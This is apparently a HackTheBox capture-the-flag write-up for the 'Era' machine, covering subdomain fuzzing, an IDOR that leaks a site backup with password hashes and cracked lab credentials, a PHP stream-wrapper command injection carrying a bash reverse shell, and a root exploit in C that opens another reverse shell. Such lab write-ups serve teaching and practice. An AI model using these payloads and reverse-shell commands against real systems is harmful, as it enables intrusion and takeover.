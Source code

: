 # Era HackTheBox Writeup

Difficulty: Medium

## Enumeration

First run masscan to get the open ports. I got 21,80.

Port 80 had the domain name era.htb so I added it into the hosts file.

There is nothing of value here so I fuzzed subdomains using 
```bash
ffuf -u "http://era.htb" -H "Host: FUZZ.era.htb" -fl 8 -w /usr/share/wordlists/dirb/common.txt
```

There I got the subdomain `file.era.htb`. So I registered it in hosts.

Now here, there is a file upload service. On fuzzing it a little we get a `/register.php`. So I registered a user and logged in. This appears to be some sort of file upload service.

There is a `download.php` endpoint which allows us to download uploaded files. But this appeared to be an IDOR since you can input any id here. So I fuzzed the IDs to get a valid id 54. This contained a backup of the site. So I downloaded it.

## Initial Access
Now from here we can download the file to analyze its contents. In it there is a database, whose users table contains this data:
```
admin_ef01cab31aa|$2y$10$wDbohsUaezf74d3sMNRPi.o93wDxJqphM2m0VVUp41If6WrYr.QPC
eric|$2y$10$S9EOSDqF1RzNUvyVj7OtJ.mskgP1spN3g2dneU.D.ABQLhSV2Qvxm
veronica|$2y$10$xQmS7JL8UT4B3jAYK7jsNeZ4I.YqaFFnZNA/2GCxLveQ805kuQGOK
yuri|$2b$12$HkRKUdjjOdf2WuTXovkHIOXwVDfSrgCqqHPpE37uWejRqUWqwEL2.
john|$2a$10$iccCEz6.5.W2p7CSBOr3ReaOqyNmINMH1LaqeQaL22a1T1V/IddE6
ethan|$2a$10$PkV/LAd07ftxVzBHhrpgcOwD3G1omX4Dk2Y56Tv9DpuUV/dh/a1wC
```

Out of these only 2 are crackable giving us credentials:
```
eric:america
yuri:mustang
```
We also get the actual admin username.

To gain admin access we don't need to go any further for now. We can go to the reset security questions page and then change the answers there. Use that to login as admin, via the `/security_login.php` endpoint.

Here we can see another file signing.zip. Download that it will be useful for later.

On the code review for download.php, I found that it did not validate the format parameter, which essentially allowed us to add any php stream wrapper.

I used a lot of ChatGPT to arrive at this payload to login as yuri (my attempts to use this to login as eric didnt work)
```
http://file.era.htb/download.php?id=54&show=true&format=ssh2.exec://yuri:mustang@127.0.0.1/bash -c "bash -i >& /dev/tcp/10.10.x.x/4444 0>&1";
```

I url encoded this via burpsuite and sent it. Make sure to keep a tcp listener running on port 4444 while using this payload.

Now we gain a shell as yuri, but not user.txt

For that we need to simply login as eric. I stabilized my shell and then used the `su` command and the password we cracked for eric to login as eric. There we gain user.

## Privilege Escalation

So I downloaded `linpeas.sh` to the machine. And this seemed interesting: 
```
╔══════════╣ Interesting GROUP writable files (not in Home) (max 200)
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#writable-files                                                             
  Group eric:                                                                                                                                                
/tmp/privesc                                                                                                                                                 
/tmp/privesc/report.txt
/tmp/privesc/linpeas.sh
  Group devs:
/opt/AV                                                                                                                                                      
/opt/AV/periodic-checks
/opt/AV/periodic-checks/monitor
/opt/AV/periodic-checks/status.log
```

So there was a binary called monitor that was writable. Interesting 🤔.

***NOTE: From here on out I had a LOT of help to figure this part out since its completely new to me***

<!--I used this writeup https://lazyhackers.in/posts/era-htb-writeup-hackthebox-season-8-->
<!--https://insidepwn.com/hackthebox-era-walkthrough-->

Now I know a couple of classic ways to exploit writable binaries, but they didnt work. Instead what I found was that this binary was to be signed using specific keys which we can find in signing.zip

So what we can do is this:

1. Create an exploit.c file containing this:
```c
int main() {
    setuid(0); setgid(0);
    execl("/bin/bash", "bash", "-c", "bash -i >& /dev/tcp/10.10.xx.xx/1337 0>&1", NULL);
    return 0;
}
```
2. Compile it using this: 
```bash
gcc -o monitor exploit.c -static
```

3. Use these commands to setup the tool to sign the malicious binary:
```bash
git clone https://github.com/NUAA-WatchDog/linux-elf-binary-signer.git
cd linux-elf-binary-signer
make clean
gcc -o elf-sign elf_sign.c -lssl -lcrypto -Wno-deprecated-declarations
```

4. Download this binary, replacing the original monitor binary on the target machine.

5. Start a listener on port 1337 of your kali linux and run this binary on your target machine. It will give root shell.

## Final Thoughts
Learned lots of new things on this machine. Hope to keep cooking with the next one. Since this season had a majority of windows machines I didnt grind it as much as i should have, will cook from next season.

Bye :)
